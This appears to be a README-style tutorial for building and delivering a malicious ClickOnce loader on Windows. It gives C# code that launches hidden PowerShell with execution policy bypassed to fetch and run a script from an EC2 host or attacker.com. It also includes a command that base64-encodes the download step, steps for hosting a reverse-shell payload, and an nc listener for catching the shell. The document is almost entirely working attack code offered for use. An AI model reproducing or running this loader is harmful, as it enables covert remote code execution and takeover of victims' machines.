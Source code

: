 ## 1. Create lscript.application

1. Go to Visual Studio Community edition to create the loader.
2. Create a C# Console application for Windows
3. In lscript.cs, write the following code ->

```
using System.Diagnostics;

static class Program {
    [System.STAThread]
    static void Main() {
        string encoded = "<Base64_Download_Command>";
        string psArgs = $"-NoProfile -WindowStyle Hidden -ExecutionPolicy Bypass -EncodedCommand {encoded}";
        ProcessStartInfo psi = new ProcessStartInfo("powershell.exe", psArgs) {
            CreateNoWindow = true,
            UseShellExecute = false
        };
        Process.Start(psi);
    }
}
```

4. Change the Uri to the EC2 instance with the **perfect.ps1** script. Run the below command in Mac/Linux,

```
echo "Invoke-WebRequest -Uri 'http://ec2-3-253-172-6.eu-west-1.compute.amazonaws.com:80/perfect.ps1' -OutFile 'perfect.ps1'; powershell -ExecutionPolicy Bypass -File 'perfect.ps1'" | iconv -t UTF-16LE | base64 -w 0
```
5. Replace the above Base64 output to <Base64_Download_Command> on the lscript.cs file.
6. You have to host the perfect.ps1, go to https://www.revshells.com, change the reverse shell IP to the public IP and port as 9999.
7. Create a Powershell base64 payload, copy and save it in the EC2 instance.
8. Open port 9999 from the security group for the public IP.

## 2. Publishing the exploit

1. Go to Visual Studio on the Windows machine.
2. Right click, choose **Properties**, then **Security**, Enable **ClickOnce Security Settings, This is a full trust application**.
3. This application is available offline and startable from Start Menu, click **Publish**.

## 3. Exploitation

1. Run sudo **python -m http.server 9999**
2. Go to your EC2 Instance, make sure there is an inbound rule entry in the security groups for port 9999 for only the public IP of the target device that will be used.
3. Start the listener with ```nc -lnvp 9999```
4. Execute the _lscript.application_ file on the target device.
5. Check the listener.


```

using System.Diagnostics;

static class Program {
    [System.STAThread] // (Use STA if a GUI/WinForms app; not needed for pure console)
    static void Main() {
        // Prepare PowerShell command (e.g., reverse shell or arbitrary script)
        string psArgs = "-NoProfile -WindowStyle Hidden -ExecutionPolicy Bypass "
                      + "-Command \"Invoke-WebRequest -Uri 'http://attacker.com/payload.ps1' -OutFile 'payload.ps1'; "
                      + "powershell -ExecutionPolicy Bypass -File 'payload.ps1'\"";
        // Configure process start info to launch PowerShell
        ProcessStartInfo psi = new ProcessStartInfo("powershell.exe", psArgs) {
            CreateNoWindow = true,   // no new window for PowerShell
            UseShellExecute = false  // required for CreateNoWindow
        };
        Process.Start(psi);
    }
}
```

